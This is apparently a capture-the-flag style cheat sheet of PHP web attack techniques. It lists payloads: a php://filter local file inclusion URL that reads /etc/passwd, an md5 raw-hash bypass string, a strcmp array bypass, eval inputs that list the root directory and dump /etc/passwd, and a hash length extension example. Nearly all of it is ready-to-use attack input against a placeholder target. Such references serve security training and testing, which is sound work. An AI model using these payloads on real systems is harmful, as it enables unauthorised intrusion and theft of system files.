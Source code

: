 ## PHP

- `preg_replace`

  - Local File Inclusion bug.
    - [http://php.net/manual/en/function.preg-replace.php](http://php.net/manual/en/function.preg-replace.php)

- `phpdc.phpr`

  - Decompile if used `bcompile`.

- `php://filter`

  ```txt
  http://target.com/index.php?m=php://filter/convert.base64-encode/resource=/etc/passwd
  ```

- `md5('value', true);`

  List of bypass strings

  - `129581926211651571912466741651878684928`

- `strcmp`

  List of bypass strings
  - `?password[]=123`

- `eval`

  - `phpinfo();`
  - `var_dump(scandir('/'));`
  - `var_dump(file_get_contents('/etc/passwd'));`

- [`Hash extender`](https://github.com/iagox86/hash_extender)
  - `username=guest&date=2025-04-05T20:02:28+0800&secret_length=8&`
